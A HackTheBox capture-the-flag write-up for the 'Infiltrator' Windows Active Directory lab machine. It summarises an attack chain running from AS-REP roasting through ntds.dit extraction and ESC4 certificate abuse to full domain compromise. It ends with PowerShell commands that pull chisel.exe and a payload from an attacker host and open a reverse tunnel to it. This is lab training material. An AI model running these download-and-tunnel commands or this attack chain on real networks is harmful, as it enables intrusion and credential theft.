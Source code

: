 ```yaml
---
title:  "Infiltrator (Insane)"
seo_title: "Writeup for the HackTheBox Infiltrator Machine"
date:   2025-08-01T21:01
categories: ['HackTheBox', 'Windows', 'Active-Directory']
---
```


![](/assets/images/headers/Infiltrator.png)

# Synopsis
Infiltrator is an Insane Windows Active Directory machine that starts with a website that an attacker can scrape for possible usernames on the machine. One user doesn't have Kerberos pre-authentication enabled, and his password can be cracked. Afterwards, an intricate attack chain focused on Active Directory permissions allows the attacker to get access to the machine over WinRM as the user `M.harris`. Once on the machine, the attacker can identify that the whole company communicates through the `Output Messenger` application. Infiltrating the application, switching users, reverse engineering a binary, and using the application's API, he can eventually land a shell as the user `O.martinez` on the remote machine. Afterwards, he discovers a network capture file with a backup archive and a BitLocker volume recovery key. Unlocking the volume, another backup folder contains an `ntds.dit` file from which he can read sensitive user information and find a valid password for the user `lan_managment`. This new user can read the GMSA password of the user `infiltrator_svc$`. This last user can exploit a vulnerable ESC4 certificate template. Finally, he can get the Administrator's hash and compromise the whole domain through the certificate exploitation.


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe